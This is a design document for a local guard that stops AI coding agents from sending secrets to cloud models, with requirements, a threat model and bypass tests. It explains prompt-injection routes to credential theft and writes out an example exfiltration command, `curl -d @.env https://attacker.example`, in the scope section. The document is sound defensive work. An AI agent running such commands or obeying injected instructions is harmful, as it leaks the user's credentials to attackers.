


# Harpocrates Guard: Design Doc

Sep 25, 2026 · @Josh

## Decision

Build **Harpocrates Guard**: a local security boundary that stops secrets from leaving your machine through AI coding agents (Claude Code, Codex). Ship v1 by Nov 23, 2026, then use its audit log as one telemetry source for a grounded ThreatChain lab in a separate repo.

This is neither my earlier proposal nor ChatGPT's roadmap as written. It takes the best of each:

- **From ChatGPT's roadmap:** finish Harpocrates first, keep detection deterministic with AI in a supporting role, and connect projects into one story instead of eight repos.
- **From my proposal:** one finished flagship with real eval numbers and an adversarial red-team section, scoped to what one student can ship during recruiting season.
- **From your idea:** the redacting read tool. It turns Harpocrates from a commit-time scanner into a data-loss-prevention (DLP) boundary around AI agents, which is exactly where the security industry is moving.

Why this beats starting the Mini-EDR first:

1. **It's 60% built.** The Rust core, ONNX runtime, and MCP server exist on side branches. The fastest path to a finished, impressive repo runs through them.
2. **Your resume already claims it.** Recruiters will click github.com/Skipa776. The repo has to match the resume before you apply widely.
3. **It teaches the core principles of security engineering directly:** complete mediation, fail-safe defaults, threat modeling, and adversarial evaluation (see Principles).
4. **It can stand out.** Redaction proxies already exist (see Market and differentiation), so the idea alone isn't new. What stands out is measured evidence: leakage, evasion, and utility results, including against competing tools.
5. **It serves your consumer motivation.** Like REFLEX, it protects individual developers, not just enterprises.

The Mini-EDR and ThreatChain work still happens, in a separate lab repo, grounded in real telemetry.

## Problem

AI coding agents read files and run commands, then send the results to a cloud LLM. Any secret they touch leaves the machine. Nothing in the default setup stops that.

Typical paths a secret takes to the cloud:

- The agent opens `.env`, `config.yaml`, or `~/.aws/credentials` to debug a connection error.
- The agent runs `cat`, `grep`, `env`, `git log -p`, or a test that prints a connection string. The output becomes a tool result sent upstream.
- A secret appears in a stack trace, a log file, or a diff the agent summarizes.
- A prompt-injected agent deliberately reads and encodes a secret, for example from instructions hidden in a README or issue.

Harpocrates today works at commit time. By then the secret has already been sent to the LLM provider during the session. Guard moves the check to the point where data leaves the machine.

## Market and differentiation

A local proxy that redacts secrets before an AI agent calls a cloud model is not new. Harpocrates must differentiate on detection quality, agent coverage, fail-closed guarantees, and published evidence, not on the idea itself.

**Verified comparable tools** (checked Sep 27, 2026)

| Tool | What it does | Relevant gaps it documents |
| --- | --- | --- |
| [RedactProxy](https://github.com/CSPF-Founder/redactproxy) | Go proxy for the Anthropic Messages API; stable fake values out, real values restored in responses; built for pentest engagements | Regex only; encoded data passes; the `system` field and HTTP headers are never scanned; signed thinking blocks can't be rewritten; OpenAI-format agents like Codex aren't supported |
| [claude-code-redact](https://github.com/paroque28/claude-code-redact) | Python proxy plus hooks; regex, entropy, context rules, optional NLP for personal data; un-redacts responses | Notes that Claude Code hooks can't modify Read or Grep output, which confirms the proxy approach |
| [Agent Quarantine](https://github.com/spacegiyou/agent-quarantine) | Rust command firewall using shims on `PATH`, with a `preflight` command for repos | Absolute-path binaries bypass the shims; not a sandbox |
| Claude Code and Codex built-in sandboxing | Operating-system level file and network isolation | Guards execution, not the content sent to the model |

The other projects in the ChatGPT review (leak-guard, llm-guard, Stroq, Cerberus, Airlock, mcpwall, mcp-scan) were not checked here. Verify each before citing it.

**What Harpocrates does differently**

1. **Contextual ML detection with published accuracy.** The tools above use regex and entropy only. Harpocrates adds a trained classifier for ambiguous candidates and decodes base64, hex, and URL encoding before rescanning.
2. **Multiple harnesses.** Designed to parse Anthropic Messages, OpenAI Responses, and OpenAI Chat Completions, covering Claude Code, Codex, OpenCode, and Copilot's bring-your-own-key mode.
3. **No placeholder restoration by default.** Competitors swap real values back into responses. That lets a prompt-injected model aim a placeholder at an attacker's server and have the proxy fill in the real secret. Harpocrates doesn't restore by default (see Key design decisions).
4. **Fail closed and scan everything,** including the `system` field and history, with an explicit policy for content that can't be rewritten.
5. **Head-to-head evidence.** The same leakage, evasion, and utility benchmarks run against competitors, with results published either way.

**Research question:** How reliably can a local reference monitor prevent realistic credential leakage from AI coding agents without materially reducing task performance?

**Anti-bloat rule:** a feature belongs in Harpocrates only if it answers one of two questions. "What am I about to send to the model?" (Guard) or "What am I about to run from this untrusted repo?" (Preflight). Everything else is delegated: Socket and OSV for packages, the agents' own sandboxes for isolation, GitHub secret scanning for hosted repos.

**Product principles**

- Local-first: no account, no cloud service, no uploaded code or telemetry.
- Quiet when safe: nothing visible during normal work.
- Explain every block with concrete evidence: the secret type and where it came from, never an opaque score.
- Deterministic enforcement: no cloud LLM decides what is allowed. An LLM may help explain findings.
- Easy but explicit overrides: `harpo allow --once`, always logged.
- Publish failures: known bypasses, unsupported transports, and unprotected channels.
- Claim carefully: say "we did not find an open-source tool in our review that combines these properties," never "nothing else does this."

## Goals and non-goals

**Goals**

1. Zero known-format canary secrets reach the LLM provider in the test harness, across every read path the agent has (read tool, shell, grep, git, MCP tool results).
2. Keep agents useful: task resolve rate within 3 percentage points with Guard on versus off, shown by an equivalence test.
3. Add less than 50 ms p95 latency per LLM request.
4. Fail closed: if the scanner crashes or times out, the request is blocked, not forwarded unscanned.
5. Never store or log a plaintext secret, anywhere, including Guard's own logs.
6. Full protection for Claude Code and Codex in v1 (OpenCode and Copilot if M3 has room), clearly labeled partial support elsewhere, and setup under 5 minutes.
7. Publish a reproducible benchmark and an evasion test suite with the results.

**Non-goals (v1)**

- Stopping a fully compromised agent from exfiltrating through other channels, such as `curl` to an attacker's server. That needs network sandboxing; Guard documents it as residual risk.
- General PII detection (names, SSNs). Possible later extension.
- Protecting against a malicious local user. The user owns the machine.
- Guaranteeing zero leakage of novel or unusually formatted secrets. Guard reduces risk and measures what gets through.

## Scope boundary

Guard v1 protects one boundary: data leaving the machine toward the configured LLM provider. Detecting a malicious agent exfiltrating through any other channel is out of scope for the product. It belongs to a behavior sensor built in the separate lab repo.

**Why redaction can't stop a malicious agent.** The model doesn't need to see a secret to steal it. A prompt-injected agent can issue `curl -d @.env https://attacker.example` and the file moves directly from disk to the attacker. The secret never enters the model's context, so the egress gate never sees it. Stopping that needs a different mechanism: watching tool calls, file access, and network destinations. That is agent behavior monitoring, closer to an EDR than to data loss prevention.

| Question | Guard v1 | Behavior sensor (lab repo) |
| --- | --- | --- |
| What it asks | Does this provider-bound request contain a secret? | Did the agent access sensitive data, then act in a way consistent with exfiltration? |
| Injected agent echoes a secret in its reply | Covered: the gate redacts it before the provider sees it | Also logged |
| Injected agent runs `curl`, DNS tricks, or writes a secret into a public PR | Not covered; documented residual risk | Covered: sensitive read, then encoding, then new outbound destination |
| Mechanisms | Detection, redaction, fail closed | Event correlation, sequence rules, network and process telemetry |

**v1 prepares for the lab without building it.** Every Guard event carries `session_id` and `event_type` (`secret_read`, `secret_redacted`, `request_blocked`, `tool_invoked`). The gate can log each tool call the model requests, since it already parses responses. No provenance tracking, taint propagation, or correlation in v1.

**Lab documentation:** when the behavior sensor starts, it gets its own threat model, requirements, and evaluation plan, not an appendix to this doc.

## Requirements

Every requirement has an ID, a milestone, and a test that proves it. Reference IDs in commits, pull requests, and tests (for example `test_fr_gate_03_fail_closed`).

**Scope clarification:** Guard does not wrap or replace the agent's shell tool. A shell can read a file in unlimited ways, so wrapping it can never be complete. The read tool handles normal file reads with file context. The egress gate covers everything else, including shell output, on its way to the provider.

**Core detection (harpo-core)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-CORE-01 | Detect secrets through regex, then entropy, then the ONNX model, in one Rust library with Python bindings | Existing Python test suite passes against the Rust core on main | M0 |
| FR-CORE-02 | Label each finding with a secret type: cloud key, API token, database credential, private key, password, generic | Per-type precision and recall reported | M1 |
| FR-CORE-03 | Output a calibrated confidence score from 0 to 1 | Calibration curve and expected calibration error published | M1 |
| FR-CORE-04 | Decode base64, hex, and URL-encoded strings, then rescan the decoded content | Evasion suite cases for each encoding pass | M3 |
| FR-CORE-05 | Scan streamed input in chunks with a configurable size cap | 100 MB input scanned without exceeding memory cap | M2 |
| FR-CORE-06 | Separate thresholds per layer: recall-favoring for the gate, precision-favoring for commits | Thresholds set in config; both documented with their precision and recall | M1 |
| FR-CORE-07 | Candidate and feature extraction run in time linear in line length, so a 100k+ character line (minified JS, inline base64) cannot stall a scan or a hook call | `test_fr_core_07_*`: a long minified line scans within a fixed time bound, including runs of whitespace, `#` and `/`, on every path including `--explain` and MCP `include_contributions`; findings snapshot unchanged | R0 |

**Read tool (harpo-read)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-READ-01 | MCP tools `safe_read` (with line ranges) and `safe_grep` that return redacted content | Canary repo read with 0 canaries in tool output | M1 |
| FR-READ-02 | Typed placeholders `<<HARPO:type:hash4>>`, identical for the same secret within a session | Same secret in two files gets the same placeholder | M1 |
| FR-READ-03 | Setup docs and config for each Full-tier harness that deny the built-in read tool on sensitive paths and route reads to `safe_read` | Fresh machine setup in under 5 minutes, verified by someone else | M1 |
| FR-READ-04 | Warn when the agent writes a placeholder into a file | Write containing a placeholder produces a visible warning | M2 |
| FR-READ-05 | The read hook lets through user-allowlisted paths (`harpocrates allow`, each use logged) and name rules (`allow --name graphify-out`: any path whose resolved real path has a component with that exact name, in every project; names are compared NFKC- and case-folded, secret-store, system and home-path names are refused, broad or secret-sounding ones such as `src` or `secrets` need `--yes`, and a name rule never opens a dot-directory of the home folder or `~/Library`, decided by file identity); `allow --remove` and `--list` manage the list, `--json` gives plugins a stable output; the agent can't edit or call any of it. Copy, move, link and archive commands (`cp -r DIR dst`, `tar`, `zip`, `ditto`) scan their directory arguments like a recursive search, and UTF-16/32 text is decoded and scanned instead of passing as binary. (The prompt this row first gave other secret-bearing reads moved to edits in FR-READ-06.) | Allowlisted path or name passes and is logged; a link named like a rule that points elsewhere, a hard link and a secret-store name are still refused; an allowlist change by the agent is refused | M1 |
| FR-READ-06 | Reads never prompt: a built-in Read, content Grep or Bash call that would expose a secret-bearing file is refused with a pointer to `safe_read` / `safe_grep`, in every mode (allowlisted paths still pass). On Claude Code with `--ask`, an Edit, MultiEdit, Write (existing file) or NotebookEdit of such a file asks the user once, naming the file and its secret types. The hook records the call as pending under the session and tool-use id; `python -m Harpocrates.hooks --post` (PostToolUse, PostToolUseFailure, SessionEnd) turns it into a grant only once the tool has run, so a No never grants. The grant (`~/.harpocrates/grants/<session_id>.json`, 24 h expiry, deleted at SessionEnd) covers that one real path for the same session, for built-in Read, content Grep and edits; never Bash, never a directory. No session or tool-use id, or no human to ask (bypass modes), means refusal. An edit whose new content holds a placeholder is denied in every mode, granted or not. Trade-off: Yes sends the file's values to the provider as-is. Residual: a script that writes the grants file itself can forge a grant (the allowlist's script gap) | Read of a secret file in `--ask` mode is denied, not asked; an Edit of one asks with the exact reason and writes a pending entry; the matching Post grants that path to that session only (not another session, another path, or Bash); an unknown id, an interrupt, a corrupt file or a grant over 24 h old grants nothing; SessionEnd removes the file; a placeholder in new content is denied even when granted | M1 |

**Egress gate (harpo-gate)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-GATE-01 | Localhost proxy that the agent's API base URL points to; forwards over TLS to the real provider | Agent completes a normal session through the proxy | M2 |
| FR-GATE-02 | Written parser spec per provider format (Anthropic Messages and OpenAI Responses in v1; OpenAI Chat Completions when the Copilot adapter ships) covering text, tool calls, tool results, and system prompts | Spec in `docs/`; parser tests for every content-block type | M2 |
| FR-GATE-03 | Fail closed on scanner error, timeout, or unparseable request. No override in v1 (Oct 20, 2026: a switch that forwards unscanned is the fail-open state the gate exists to prevent; a scanner failure blocks until restart or downgrade) | Killed scanner, timeout, and malformed request all blocked | M2 |
| FR-GATE-04 | Scan the full request each turn, including history, not only the newest message | Secret planted in turn 1 history is redacted in turn 5 | M2 |
| FR-GATE-05 | Deterministic placeholders so the unchanged start of each request stays identical and provider prompt caching still works | Cache hit rate with Guard on within 5 points of Guard off | M3 |
| FR-GATE-06 | Stream responses back to the agent unchanged (server-sent events) | Streaming works end to end in both agents | M2 |
| FR-GATE-07 | Defined policy for images and PDFs in requests: block, pass with warning, or OCR; default is pass with warning in v1 | Policy documented and tested | M2 |
| FR-GATE-08 | User-approved allowlist by path or secret hash, every use logged | Allowlisted secret passes; log entry exists | M3 |
| FR-GATE-09 | Confirm the transport each agent uses (HTTP, server-sent events, WebSocket) and support it | Transport notes in `docs/`; both agents work | M2 |
| FR-GATE-10 | Content the gate can't rewrite. Signed thinking and redacted-thinking blocks are dropped from every request, which the API allows, so nothing unredacted in them is forwarded and the session survives. Other unrewritable content (encrypted reasoning, provider-signed readable text) that holds a detected secret blocks the request with a clear message. Trade-off (Josh, Oct 19, 2026): dropping thinking costs the model its earlier reasoning in later turns; blocking would end the session | A secret planted in a signed thinking block never reaches the mock provider and the request still succeeds; a secret in encrypted reasoning triggers a block with a clear message | M2 |
| FR-GATE-11 | Secrets base64-encoded inside text fields. Long base64 runs (24 or more characters, standard or URL-safe, wrapped or split by whitespace or escapes) in every rewrite and scan-only text field are decoded at every alignment; the text in each decoding (UTF-8 or UTF-16) is scanned, and a finding blocks the request with a clear message; more than 2 MiB of runs in one request blocks too. Trade-off (Josh, Oct 20, 2026): a benign encoded text that trips the detector blocks instead of being redacted; secrets inside encoded binary, compressed or double-encoded data still pass (`docs/gate-base64-text-spec.md`) | A secret in an MCP resource blob that Codex sends as JSON text, and in a base64 run in any text field, triggers `HARPO-BLOCK-ENCODED-SECRET`; binary, random and clean encoded runs pass unchanged | M2 |

**Commit gate, logging, and setup**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-COMMIT-01 | Pre-commit hook and CLI scan staged changes and full git history | Planted historical secret found | M0 |
| FR-COMMIT-02 | SARIF output and a GitHub Action that uploads findings to code scanning | Findings visible in a demo repo's Security tab | M3 |
| FR-LOG-01 | JSONL audit log, one line per finding: time, layer, type, keyed hash prefix, source, action, session ID | Log schema test; grep of logs finds no canary values | M2 |
| FR-LOG-02 | Log fields follow a subset of OCSF so later components can consume them | Field mapping documented | M3 |
| FR-UX-01 | One command, `harpo guard up`, starts the gate; per-harness setup is covered by FR-INSTALL | Demo video shows setup from scratch | M3 |

**Non-functional and security**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| NFR-01 | Added latency under 50 ms p95 per request | Latency benchmark in CI | M3 |
| NFR-02 | Task resolve rate within 3 points with Guard on vs off | Utility benchmark method below | M3 |
| SEC-01 | Never store or log a plaintext secret | Automated grep of all logs and temp files after the canary run | M2 |
| SEC-02 | HMAC with a random in-memory per-session key for placeholders and logs | Code review plus a test that keys differ across sessions | M1 |
| SEC-03 | Proxy binds to 127.0.0.1 only and requires a per-session token header | Request without the token rejected | M2 |
| SEC-04 | Fuzz the request parser | cargo-fuzz target runs in CI for a fixed time budget | M3 |
| SEC-05 | Pinned dependencies, config checksum at startup, and a `SECURITY.md` | Files present; tampered config refused | M3 |
| SEC-06 | Document residual risks: other exfiltration channels, agent transcripts saved to local disk with raw tool output, and agent traffic that bypasses the API base URL (such as feature flags and token refresh) | Threat model doc lists all three | M1 |
| SEC-07 | Every model artifact the package loads ships in the wheel and is hash-checked against the manifest before use; a missing or mismatched artifact is refused, never loaded | `test_sec_07_*`: tampered `xgboost_model.json` refused; wheel install contains every artifact in the manifest | R0 |
| SEC-08 | The hook trusts no environment variable for anything security-relevant: the state directory comes from the password database (`pwd.getpwuid(os.getuid()).pw_dir`), not `$HOME`, and the hook interpreter runs with `-I`, so `PYTHONPATH`, `PYTHONSTARTUP` and user site-packages cannot load code into it | `test_sec_08_*`: a planted `HOME` neither moves the state directory nor disarms the guard; a planted `PYTHONPATH` package never runs in the hook | R0 |
| SEC-09 | The state-directory guard has no known bypass that does not build the path at run time. After migration there is no fallback to `~/.harpocrates`, and an unusable `~/.harpo` means an empty allowlist. Any home component starting with `.harpo` is guarded. `cd`/`pushd` into either directory is refused. Hard links to state files are refused. Every path key of a tool call is checked. The migration opens the source with `O_NOFOLLOW` | `test_sec_09_*`: one test per bypass found in the Oct 18 security review (F3 to F8), each failing before its fix | R0 |
| SEC-10 | A repo cannot route an agent around the gate. When the install record says the gate is on, the hook compares the effective Claude Code base URL with the gate's (`http://127.0.0.1:<gate port>` from `~/.harpo/install.json`; `localhost`, `127.0.0.1` and `[::1]` are the same host, the port must match, the path must be empty). It reads, in Claude Code's precedence order, the `ANTHROPIC_BASE_URL` in its own environment and in `env` of `<repo>/.claude/settings.json`, `<repo>/.claude/settings.local.json` and `~/.claude/settings.json`. `CLAUDE_CODE_USE_BEDROCK=1`, `CLAUDE_CODE_USE_VERTEX=1`, and an `ANTHROPIC_CUSTOM_HEADERS` without the gate token also count as a bypass. On a mismatch, every tool call in that session is refused automatically with a plain message naming the setting file. Nothing waits for an answer: no prompt, no ask. One desktop notice per session is informational only. With no gate installed, nothing changes. Codex: a fixture confirms project-level provider keys are ignored. `harpo doctor` fails and names each override (FR-PROOF-05). Found in G2 (T2, Oct 19, 2026); approved by Josh the same day | `test_sec_10_*`: one fixture repo per override source gets every tool call refused with no interaction; an unaffected repo and a machine without the gate are unaffected; the Codex project-provider fixture is ignored; `harpo doctor` fails on each fixture | M2 |

**Documentation and data**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| DOC-01 | README first screen: one-sentence pitch, demo GIF, results table, architecture diagram, 3-line quickstart | Reviewed by someone outside the project | M3 |
| DOC-02 | Dataset provenance and license for all training and benchmark data | `docs/data.md` exists | M0 |
| DOC-03 | Published known-bypass list | `docs/bypasses.md` exists and matches the evasion results | M3 |

**Testing**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| TEST-01 | Line coverage of the shipped package (`cli/Harpocrates`, excluding the untracked local training code) is measured in CI and fails below a floor. The floor starts at 90% (measured 92.9% on Oct 18, 2026, Apple M3 Pro) and rises toward the measured value as gaps close. It is never lowered without a trade-off note | The CI unit job fails a change that drops coverage below `fail_under` in `pyproject.toml` | R0 |
| TEST-02 **(proposed)** | Every requirement ID from a finished milestone has at least one test whose name contains the ID (lowercase, `-` as `_`), or a named non-test acceptance artifact (a report or doc) | `scripts/check_req_tests.py` lists IDs without one; CI fails on any ID from a finished milestone | R0 |
| TEST-03 **(proposed)** | End-to-end tests for the critical flows, run in CI against an installed wheel in a fixture home directory: (a) an agent read of a canary file is refused and `safe_read` returns placeholders; (b) the pre-commit hook blocks a staged canary; (c) `install`, then a hook call, then `uninstall` restores every settings file byte-identical | One `test_test_03_*` integration test per flow, all passing in CI | R0 |
| TEST-04 **(proposed)** | Josh verifies every test. Each pull request lists its new and changed tests by requirement ID, and Josh ticks each one before merge | Pull request template has the checklist; no merge with an unticked test | R0 |

## Roadmap after R0: proof, serving, learning, lifecycle, service and detections

Added Oct 18, 2026, from Josh's milestone plan. Targets marked **(proposed)** are starting points for Josh to confirm or change. Once a target is confirmed, it may be loosened only with a written trade-off note, never silently. Rows marked **(Josh writes)** are the five parts Josh implements by hand. For those, the assistant writes only the spec, interface signatures and test fixtures, and reviews Josh's code on request. **M8 is deferred** (Josh, Oct 18).

Working rules for this section, on top of the six in `AGENTS.md`: one requirement ID at a time, with its acceptance test first and named after the ID; a spec of a page or less (inputs, outputs, failure behavior, test plan) approved before any delegated component is coded; one function per commit, each commit naming its ID.

### Baseline (v17, detector 1.2)

Every target below is measured against these numbers. Re-measured Oct 18, 2026 on an Apple M3 Pro (12 cores, 18 GB), Python 3.12.12. Raw results are in `bench/results/r0-before/`.

| Metric | Gate threshold (0.1904) | Commit threshold (0.5559) | Source |
| --- | --- | --- | --- |
| Benchmark recall / precision | 94.96% / 90.41% | 93.94% / 94.36% | `model_config.json`, re-measured identical |
| OSS test recall / precision | 99.33% / 94.54% | 98.73% / 97.11% | `model_config.json`, re-measured identical |
| Candidate AUC, benchmark / OSS | 0.9856 / 0.9996 | same model | `model_config.json` |
| ML alarms per 1,000 real files, 16 validation repos | 56.8 | 14.9 | README |

| Speed | Oct 16 reference (v1.3.0) | Oct 18 re-measure, median / p95 |
| --- | --- | --- |
| Model inference, one candidate | 0.013 ms | 0.0073 / 0.0082 ms |
| Model inference, batch of 256 | 2.0 ms | 0.41 / 0.49 ms |
| Hook call, clean file | about 90 ms | 68 / 107 ms |
| Hook call that loads the model | 230 to 280 ms | 171 / 212 ms |
| Bare Python start (`python -c pass`) | n/a | about 12 ms |

### Do not build

| Not built | Why |
| --- | --- |
| INT8 quantization | The model is a `TreeEnsembleClassifier`. ONNX dynamic quantization targets matrix-multiply and convolution weights, so there is nothing to quantize |
| Micro-batching | Only if the `FR-SERVE-01` profile shows model inference is a top-two cost |
| Suppression based on the shape of the value | Real secrets of one type share entropy, length, character mix and prefixes, so a value-shape match would hide real secrets. The M5 suppressor matches where a string appears, not what it looks like |
| Local retraining of the base model | One user's few labels would overfit, and every user would run a different untested model. Base-model retraining stays central (M6) |
| A write-ahead log | Small state files need only write-to-temp, `fsync`, then rename |

### M3 additions: proof that the provider receives only redacted text

These extend M3, which already has the mock-server canary harness and `FR-INSTALL-02` (`harpo doctor`). The proof covers what passes through the gate. Before the gate ships, the README shows only the read-tool path, with the live result of 0 of 15 canaries, and says so.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-PROOF-01 | The egress gate writes an audit entry for every outbound request: time, provider, a SHA-256 hash of the exact bytes forwarded, and placeholder counts by type. Never values | Schema test, plus a scan of the log for secrets | M3 |
| FR-PROOF-02 | Audit entries are hash-chained: each entry includes the previous entry's hash, so a deleted or edited entry is detectable | Tamper test: editing or deleting any entry fails verification | M3 |
| FR-PROOF-03 | `harpo proof` shows the last N forwarded requests as the provider received them, with placeholders, and verifies the chain | CLI test on a fixture log | M3 |
| FR-PROOF-04 | In CI, the mock provider records every request from scripted and live agent sessions over a seeded canary repo. Publish canaries received out of canaries planted | 0 known-format canaries received | M3 |
| FR-PROOF-05 | `harpo doctor` fails loudly when any configured agent sends traffic that bypassed the gate | Deliberately misconfigured agent is caught | M3 |
| DOC-DEMO-03 | README scene: an agent session next to `harpo proof`, showing placeholders where the canaries were | GIF in the README | M3 |

### M4: Serving and reliability

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-SERVE-01 **(Josh writes the analysis)** | Profile a full-repo scan and a history scan by stage: file reads, candidate extraction, features, model, output. Commit the profile script and results | Stage breakdown table in `docs/`, with the top two costs named | M4 |
| FR-SERVE-02 | A local detector daemon keeps the model loaded and serves scan requests over a Unix socket owned by the user, mode `0600` | Socket permissions test, plus a request/response test | M4 |
| FR-SERVE-03 | The hook becomes a thin client to the daemon. Consider writing the client in the existing Rust core, since Python startup alone costs tens of milliseconds (12 ms measured) | Hook tests pass unchanged against the daemon | M4 |
| FR-SERVE-04 | If the daemon is missing, slow or crashes, the hook falls back to in-process scanning within its time budget, and blocks if that also fails. It never allows by default | Kill, stall and garble-the-daemon tests: every case scans or blocks | M4 |
| NFR-03 | Warm hook latency for files up to 100 KB: p50 ≤ 25 ms and p95 ≤ 50 ms **(proposed)**, matching `NFR-01` | Latency benchmark over 1,000 calls in CI | M4 |
| NFR-04 | Cold fallback latency: p95 ≤ 350 ms **(proposed)** | Same benchmark with the daemon stopped | M4 |
| FR-REL-01 | History scans checkpoint by commit and resume after `kill -9` | Findings after kill and resume equal an uninterrupted scan exactly: 0 missed, 0 duplicated | M4 |
| FR-REL-02 | Every state file is written to a temp file, `fsync`ed, then renamed into place | Fault-injection test kills the writer at each step and finds no corrupt state | M4 |
| NFR-05 | Peak memory stays flat as history grows: ≤ 256 MB at both 1 million and 10 million lines **(proposed)** | Memory benchmark at both sizes | M4 |
| NFR-06 | Backfill throughput at least 2× the `FR-SERVE-01` baseline after fixing the top bottleneck, and scaling to 4 workers at ≥ 70% efficiency **(proposed)** | Throughput benchmark, lines per second | M4 |

### M5: Learns your false alarms, not your secrets

Three parts: a person labels uncertain blocks, exact fingerprints remember single values, and a small local model learns the places where false alarms appear.

**Asking the user.** The hook cannot show UI inside the agent session, and its time budget is 25 s (Codex documents 30 s). It must not wait for an answer. The read is refused immediately, as `FR-READ-06` requires, and the question is asked out of band. Before any code, a spec covers how each supported OS and agent shows the notification. **`FR-READ-06` wording change (proposed):** add "The read is refused without prompting; any question about it is asked separately, out of band (FR-ASK-01 to FR-ASK-07), never through the agent." The requirement and its tests otherwise stay as they are.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-ASK-01 | Ask only about uncertain ML findings. Use the calibrated probability `p` (isotonic, already in `model_config.json`). Ask when 0.20 ≤ p < 0.80 **(proposed)**: in that range the calibrated model is wrong 20% to 80% of the time. Above 0.80, block without asking and list the finding in `harpo review`. Never ask about known-format regex matches. Map the existing gate threshold onto the calibrated scale and document the mapping | Band test on fixture candidates at known probabilities | M5 |
| FR-ASK-02 | A desktop notification reads: "Harpo blocked a possible secret from Claude Code (or Codex). Is this a real secret?" It shows the secret type, file and line, the value masked with a local reveal option, and the confidence. The choices are "Real secret, keep blocking" (the default), "Not a secret, allow it here" and "Not sure, keep blocking". Clicking opens `harpo review`, a terminal UI that works without notifications | UI test, plus a headless test of `harpo review` | M5 |
| FR-ASK-03 | No answer, a timeout or "Not sure" keeps blocking and records no label | Timeout test | M5 |
| FR-ASK-04 | The agent cannot answer. Questions never go to the agent's channel. The hook refuses agent-run `harpo review`, `harpo allow` and `harpo learn` commands, extending the existing guard in `allowlist.py`. Label files sit under `~/.harpo`, which the hook and the harness deny rules protect from agent edits (`FR-NAME-04`, `SEC-09`) | Agent-initiated answer, allow and label-file edit are all refused | M5 |
| FR-ASK-05 | No more than 3 notifications an hour **(proposed)**. Batch the rest into `harpo review` | Rate-limit test | M5 |
| FR-ASK-06 | Hook latency is unchanged by asking: `NFR-03` holds with questions pending | Latency benchmark with a full question queue | M5 |
| FR-ASK-07 | Labeling study, once on Josh's machine and once with his team. Seed a session with 20 known-format canaries, 20 ML-only canary passwords and 20 benign look-alikes **(proposed)**. Measure questions per hour of agent work, answer accuracy and time to answer. Target: median ≤ 2 questions an hour, and no canary answered "Not a secret" **(proposed)** | Study report in `docs/` | M5 |
| FR-GATE-08 (extended) **(Josh writes)** | Extends the M3 `FR-GATE-08`. A "Not a secret" answer, or a `harpo allow`, stores an HMAC of the value with a per-install key kept outside the repo, plus the path and rule. Each is scoped to one repo, expires (default 90 days, **proposed**), is logged on every use, and only the user can add it, never the agent. Trade-off against `SEC-02`: fingerprints need a key that survives sessions, so this key is per install, not per session; `SEC-02` still governs placeholders and logs | A real secret with the same shape as an allowlisted one is still caught; an expired entry stops applying; agent-initiated adds are refused | M5 |

**The local suppressor.** A second, small, local model that retrains itself when enough similar false alarms pile up. It uses only context features, meaning where a string appears: the file path pattern and type, generated-file and lockfile markers, the key or field name, the enclosing structure (such as an `integrity` field in `package-lock.json`), and how often similar strings repeat in the file. It never uses value-shape features: entropy, length, character classes or prefixes.

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-LEARN-01 | Retrain trigger: when one context cluster collects at least 5 "Not a secret" answers from at least 3 different files in a repo **(proposed)**, rebuild that repo's suppressor. It is a nearest-neighbor index or a logistic regression over context features, and rebuilds in seconds | Trigger test: 4 answers do nothing, 5 rebuild | M5 |
| FR-LEARN-02 | The suppressor's input contains no value-shape features | Feature-list test fails if any value-shape feature appears | M5 |
| FR-LEARN-03 **(Josh writes)** | The suppressor outputs a calibrated probability that a finding is a false alarm. It may suppress only when that probability is at least 0.95, measured on held-out answers. The 95% is confidence that the finding is a false alarm, not a similarity score | Calibration report on held-out answers | M5 |
| FR-LEARN-04 **(Josh writes)** | It never suppresses a known-format regex match, and never suppresses a finding the base model scores above 0.80 calibrated **(proposed)** | Canary test: known-format canaries planted inside learned contexts are always caught | M5 |
| FR-LEARN-05 **(Josh writes)** | Every suppression is logged. `harpo learn` lists each learned context with its examples and its count of suppressions, and can revoke it. A learned context expires after 90 days without a new answer **(proposed)** | Revoke and expiry tests | M5 |
| FR-LEARN-06 | The miss rate is measured and published. Plant ML-only canary passwords inside learned contexts and report how many are suppressed. This is the accepted risk of the feature, and the README states it | Report in the README | M5 |
